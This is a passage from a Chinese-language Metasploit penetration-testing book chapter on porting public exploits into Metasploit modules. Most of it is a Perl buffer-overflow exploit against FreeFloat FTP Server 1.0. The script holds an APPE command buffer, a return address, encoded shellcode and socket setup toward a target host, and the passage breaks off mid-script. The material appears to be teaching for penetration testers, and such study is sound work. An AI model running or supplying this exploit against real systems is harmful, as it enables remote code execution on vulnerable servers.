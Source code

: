 # 第 4 章：移植漏洞

在上一章中，我们讨论了如何在 Metasploit 中编写漏洞利用。但是，在已经存在公共漏洞的情况下，我们不需要为特定软件创建漏洞。一个公开的可用漏洞可能使用不同的编程语言，如 Perl、Python 等。现在，让我们来了解从各种不同的编程语言向 Metasploit 框架移植漏洞的策略。这种机制使我们能够将现有的漏洞利用转化为与 Metasploit 兼容的漏洞利用，从而节省时间，因为我们不必一次又一次地模糊软件。在本章结束时，我们将了解：

*   从各种编程语言移植漏洞
*   从独立漏洞中发现要点
*   为漏洞攻击生成骨架
*   从现有独立扫描仪/工具脚本创建 Metasploit 模块

如果我们能够弄清楚现有的**独立**漏洞利用中的哪些功能执行什么样的工作，那么将脚本移植到 Metasploit 框架中的想法是一件容易的事情。

这种将漏洞利用移植到 Metasploit 的想法通过使独立脚本在广泛的网络（而不是单个系统）上可用来节省时间。此外，由于可以从 Metasploit 本身访问每个漏洞，因此它使渗透测试更有组织性。在接下来的部分中，让我们了解如何使用 Metasploit 实现可移植性。

# 移植基于 Perl 的漏洞

让我们从开始，了解基于 Perl 的漏洞利用的结构。在下面的示例中，我们将为 FreeFloat FTP 服务器 1.0 版编写一个漏洞攻击，该漏洞会触发服务器中的缓冲区溢出漏洞。让我们看一下这个漏洞在 Perl 中公开的版本：

```
use strict;
use Socket;
my $command = "APPE ";
my $buffstuff = "\x90" x 246;
my $offset_eip = pack('V',0x71AB9372);
my $payloadencoded="\x90" x 50;
$payloadencoded=$payloadencoded. "\xba\x3f\xd4\x83\xe9\xdb\xcc\xd9\x74\x24\xf4\x5f\x2b\xc9" .
"\xb1\x56\x31\x57\x13\x83\xc7\x04\x03\x57\x30\x36\x76\x15" .
"\xa6\x3f\x79\xe6\x36\x20\xf3\x03\x07\x72\x67\x47\x35\x42" .
"\xe3\x05\xb5\x29\xa1\xbd\x4e\x5f\x6e\xb1\xe7\xea\x48\xfc" .
"\xf8\xda\x54\x52\x3a\x7c\x29\xa9\x6e\x5e\x10\x62\x63\x9f" .
"\x55\x9f\x8b\xcd\x0e\xeb\x39\xe2\x3b\xa9\x81\x03\xec\xa5" .
"\xb9\x7b\x89\x7a\x4d\x36\x90\xaa\xfd\x4d\xda\x52\x76\x09" .
"\xfb\x63\x5b\x49\xc7\x2a\xd0\xba\xb3\xac\x30\xf3\x3c\x9f" .
"\x7c\x58\x03\x2f\x71\xa0\x43\x88\x69\xd7\xbf\xea\x14\xe0" .
"\x7b\x90\xc2\x65\x9e\x32\x81\xde\x7a\xc2\x46\xb8\x09\xc8" .
"\x23\xce\x56\xcd\xb2\x03\xed\xe9\x3f\xa2\x22\x78\x7b\x81" .
"\xe6\x20\xd8\xa8\xbf\x8c\x8f\xd5\xa0\x69\x70\x70\xaa\x98" .
"\x65\x02\xf1\xf4\x4a\x39\x0a\x05\xc4\x4a\x79\x37\x4b\xe1" .
"\x15\x7b\x04\x2f\xe1\x7c\x3f\x97\x7d\x83\xbf\xe8\x54\x40" .
"\xeb\xb8\xce\x61\x93\x52\x0f\x8d\x46\xf4\x5f\x21\x38\xb5" .
"\x0f\x81\xe8\x5d\x5a\x0e\xd7\x7e\x65\xc4\x6e\xb9\xab\x3c" .
"\x23\x2e\xce\xc2\xd6\x1d\x47\x24\xb2\x71\x0e\xfe\x2a\xb0" .
"\x75\x37\xcd\xcb\x5f\x6b\x46\x5c\xd7\x65\x50\x63\xe8\xa3" .
"\xf3\xc8\x40\x24\x87\x02\x55\x55\x98\x0e\xfd\x1c\xa1\xd9" .
"\x77\x71\x60\x7b\x87\x58\x12\x18\x1a\x07\xe2\x57\x07\x90" .
"\xb5\x30\xf9\xe9\x53\xad\xa0\x43\x41\x2c\x34\xab\xc1\xeb" .
"\x85\x32\xc8\x7e\xb1\x10\xda\x46\x3a\x1d\x8e\x16\x6d\xcb" .
"\x78\xd1\xc7\xbd\xd2\x8b\xb4\x17\xb2\x4a\xf7\xa7\xc4\x52" .
"\xd2\x51\x28\xe2\x8b\x27\x57\xcb\x5b\xa0\x20\x31\xfc\x4f" .
"\xfb\xf1\x02\xa1\x31\xec\x93\x18\xa0\x4d\xfe\x9a\x1f\x91" .
"\x07\x19\x95\x6a\xfc\x01\xdc\x6f\xb8\x85\x0d\x02\xd1\x63" .
"\x31\xb1\xd2\xa1";
my $target = shift || '192.168.75.141';
my $targetport = shift || 21;
my $tcpproto = getprotobyname('tcp');
my $binaddr = inet_aton($target);
my $exactaddr = sockaddr_in($targetport, $binaddr);

print "Initializing and Socket Setting Up..\n";
socket(SOCKET, PF_INET, SOCK_STREAM, $tcpproto) or die "socket: $!";
print "\nMaking a Connection To the Target";
```